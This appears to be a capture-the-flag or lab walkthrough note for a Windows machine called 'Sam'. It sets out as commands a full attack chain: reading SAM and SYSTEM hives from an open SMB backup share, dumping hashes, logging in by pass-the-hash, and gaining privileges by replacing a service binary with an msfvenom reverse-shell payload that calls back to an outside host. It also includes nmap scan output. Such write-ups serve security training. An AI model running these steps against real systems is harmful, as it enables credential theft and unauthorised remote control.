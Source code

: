 ```yaml
---
title: Sam
created: '2020-07-06T18:26:53.207Z'
modified: '2020-07-06T19:43:30.364Z'
---
```


# Sam
- IP: `172.31.1.18`
- OS: `Windows`
## Enumeration
### Writeup
We can login as guest on SMB: `smbclient.py SAM/sdfsdfsdafdsafasdfst@172.31.1.18`
We mount the backup share: `mount -t cifs -o username=asdklfsadf,password= //172.31.1.18/backups /mnt/backups/`

We find SAM and SYSTEM file:
- `cp /mnt/backups/Windows/System32/config/SAM .`
- `cp /mnt/backups/Windows/System32/config/SYSTEM .`
We dump their creds using: `secretsdump.py -sam SAM -system SYSTEM LOCAL`

We get a shell as jamie using: `evil-winrm -i 172.31.1.18 -u jamie -H 68b1d3b0493ec0d6a1c0b8725062ab71`

We see the services folder and see there are 2 services. `services`
We follow the [cheatsheet](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation#services)
Can we do anything with this service? `cmd /c 'sc sdshow monitor1'`
- Can we modify the service: `cmd /c 'sc config monitor2 binpath="C:/test.exe"'`
- Can we modify the binary it's running?
  - `cmd /c 'sc qc monitor1'` qc = query configuration
  - `icacls "C:\Services\monitor1.exe"` Integrity Control Access Control List"
  - `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.0.8 LPORT=1234 -f exe > monitor1.exe`
  - `sc start monitor1`
### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.1.18`
```
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Datacenter 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SAM
|   NetBIOS_Domain_Name: SAM
|   NetBIOS_Computer_Name: SAM
|   DNS_Domain_Name: SAM
|   DNS_Computer_Name: SAM
|   Product_Version: 10.0.14393
|_  System_Time: 2020-07-06T18:35:46+00:00
| ssl-cert: Subject: commonName=SAM
| Issuer: commonName=SAM
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-08T22:33:11
| Not valid after:  2020-11-07T22:33:11
| MD5:   03ae b18c 6555 e7e2 0377 2e61 ea5e 8864
|_SHA-1: 00c0 fc67 3a6c f582 dc8e 2717 ce36 14b6 c8ea fc12
|_ssl-date: 2020-07-06T18:35:51+00:00; +2s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
```
</details>

<details>
<summary></summary>

- ``
```

```
</details>
